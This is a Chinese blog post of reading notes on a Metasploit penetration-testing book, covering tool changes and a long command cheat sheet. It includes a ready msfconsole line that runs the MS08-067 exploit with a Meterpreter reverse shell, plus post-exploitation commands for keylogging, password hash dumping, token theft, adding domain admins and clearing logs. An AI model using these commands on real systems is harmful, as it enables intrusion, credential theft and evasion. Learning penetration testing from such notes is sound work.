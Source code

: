 ```yaml
---
layout: post
title: 读《Metasploit渗透测试指南》
category: old_blog
tags: hack
keywords: metasploit
description:
---
```


> 本文写于 2015.12.22

这几天看《 Metasploit 渗透测试指南》，有些内容好像已经过时了。用户接口讲了三种： MSF 终端，MSF 命令行和 Armitage，而从今年的六月份开始，Msfcli 就与我们说再见了，同时，可以通过 Msfconsole 使用 -x 选项来取代 Msfcli 。

举个例子，在一条命令中使用 MS08_067 模块。
```
msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST [IP]; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST [IP]; run"
```
也可以分步写或者做成脚本来简化输入：
```
use exploit/windows/smb/ms08_067_netapi  
set RHOST [IP]  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST [IP]  
run
```
然后运行它：
```
msfconsole -r name_of_resource_script.rc
```
如果你已经运行了 msfconsole ，就输入下面的：
```
msf > resource name_of_resource_script.rc
```
另外， msfpayload 和 msfencode 也退休了， msfvenom 是它们的继承者，如果对新工具还不熟悉，可以使用 -h 选项来获得帮助。
```
-p, --payload    <payload>       Payload to use. Specify a '-' or stdin to use custom payloads  
-l, --list       [module_type]   List a module type example: payloads, encoders, nops, all  
-n, --nopsled    <length>        Prepend a nopsled of [length] size on to the payload  
-f, --format     <format>        Output format (use --help-formats for a list)  
-e, --encoder    [encoder]       The encoder to use  
-a, --arch       <architecture>  The architecture to use  
    --platform   <platform>      The platform of the payload  
-s, --space      <length>        The maximum size of the resulting payload  
-b, --bad-chars  <list>          The list of characters to avoid example: '\x00\xff'  
-i, --iterations <count>         The number of times to encode the payload  
-c, --add-code   <path>          Specify an additional win32 shellcode file to include  
-x, --template   <path>          Specify a custom executable file to use as a template  
-k, --keep                       Preserve the template behavior and inject the payload as a new thread  
    --payload-options            List the payload's standard options  
-o, --out   <path>               Save the payload  
-v, --var-name <name>            Specify a custom variable name to use for certain output formats  
-h, --help                       Show this message  
    --help-formats               List available formats
```

参考文章：
- [Weekly Metasploit Wrapup](https://community.rapid7.com/community/metasploit/blog/2015/01/23/weekly-metasploit-wrapup)
- [Msfcli is no longer available in Metasploit](https://community.rapid7.com/community/metasploit/blog/2015/07/10/msfcli-is-no-longer-available-in-metasploit)
- [Good-bye msfpayload and msfencode](https://community.rapid7.com/community/metasploit/blog/2014/12/09/good-bye-msfpayload-and-msfencode)
- [MsfPayload and MsfEncode are being removed from Metasploit](https://community.rapid7.com/community/metasploit/blog/2015/06/08/msfpayload-and-msfencode-are-being-removed-from-metasploit)


## Metasploit 常用命令列表
#### MSF 终端命令
```
show exploits （列出所有渗透攻击模块
show payloads （列出所有攻击载荷
show auxiliary （列出所有辅助攻击模块
search names （查找所有的渗透攻击和其他模块
info （展示出制定渗透攻击或模块的相关信息
use name （装载一个渗透攻击或者模块
LHOST （本地可以让目标主机连接的IP地址，通常当目标主机不在同一个局域网时，就需要时一个公共的IP地址，特别为反弹式shell使用。
RHOST （远程主机或者目标主机
set function （设置特定的配置参数
setg function （以全局方式设置特定的配置参数
show options （列出某个渗透攻击或模块中所有的配置参数
show targets （列出渗透攻击所支持的目标平台
set target num （指定你所知道的目标的操作系统以及补丁版本类型
set payload payload （指定想要使用的攻击载荷
show advanced （列出所有高级配置选项
set autorunscript migrate -f （在渗透攻击完成后，将自动迁移到另一个进程
check （检测目标是否对选定渗透攻击存在相应安全漏洞
exploit （执行渗透攻击或模块来攻击目标
exploit -j （在计划任务下进行渗透攻击，攻击在后台进行
exploit -z （渗透攻击成功后不与会话进行交互
exploit -e encoder （制定使用的攻击载荷编码方式
exploit -h （列出帮助信息
sessions -l （列出可用的交互会话，在处理多个shell时使用
sessions -l -v （列出所有可用的交互会话以及会话详细信息
sessions -s script （在所有活跃的会话中运行一个特定的脚本
sessions -K （杀死所有活跃的交互会话
sessions -c cmd （在所有活跃的会话上执行一个命令
sessions -u sessionID （升级一个普通的win32 shell到meterpreter shell
db_create name （创建一个数据库驱动攻击所要使用的数据库
db_connect name （创建并连接一个数据库驱动攻击所要使用的数据库
db_nmap （利用nmap并把扫描数据存储到数据库中
db_autopwn -h （帮助信息
db_autopwn -p -r -e （对所有发现的开放端口执行db_autopwn，攻击所有系统，并使用一个反弹式shell
db_destroy （删除当前数据库
db_destroy user:password@host:port/database （使用高级选项来删除数据库
```
#### Meterpreter命令
```
help （帮助
run scriptname （运行脚本
sysinfo （列出受控主机的系统信息
ls （列出目标主机的文件和文件夹信息
use priv （加载特权提升扩展模块
ps （显示所有运行进程以及关联的用户账户
migrate PID （迁移到一个指定的进程ID
use incognito （加载incognito功能，用来盗窃目标主机的令牌或是假冒用户
list_tokens -u （列出目标主机用户的可用令牌
list_tokens -g （列出目标主机用户组的可用令牌
impersonate_token DOMAIN_NAME\USERNAME （假冒目标主机上的可用令牌
steal_token PID （盗窃给定进程的可用令牌并进行令牌假冒
drop_taken （停止假冒当前令牌
getsystem （通过各种攻击向量来提升到系统用户权限
shell （以所有可用令牌来运行一个交互的shell
execute -f cmd.exe -i （执行cmd.exe命令并进行交互
execute -f cmd.exe -i -t （以所有可用令牌来执行cmd命令
execute -f cmd.exe -i -H -t （以所有可用令牌来执行cmd命令并隐藏该进程
rev2self （回到控制目标主机的初始用户账户下
reg command （在目标主机注册表中进行交互，创建，删除，查询等操作
setdesktop number （切换到另一个用户界面
screenshot （对目标主机屏幕进行截图
upload file （向目标主机上传文件
download file （从目标主机下载文件
keyscan_start （针对远程目标主机开启键盘记录功能
keyscan_dump （存储目标主机上捕获的键盘记录
keyscan_stop （停止针对目标主机的键盘记录
getprivs （尽可能多的获取目标主机上的特权
uictl enable keyboard/mouse （接管目标主机的键盘和鼠标
background （将当前的shell转为后台执行
hashdump （导出目标主机中的口令哈希值
use sniffer （加载嗅探模块
sniffer_interfaces （列出目标主机所有开放的网络接口
sniffer_dump interfaceID pcapname （在目标主机上启动嗅探
sniffer_start interfaceID packet-buffer （在目标主机上针对特定范围的数据包缓冲区启动嗅探
sniffer_starts interfaceID （获取正在实施嗅探网络接口的统计数据
sniffer_stop interfaceID （停止嗅探
add_user username password -h ip （在远程目标主机上添加一个用户
add_group_user “Domain Admins” username -h ip （将用户添加到目标主机的域管理员组中
clearev （清除目标主机上的日志记录
timestomp （修改文件属性
reboot （重启目标主机
```
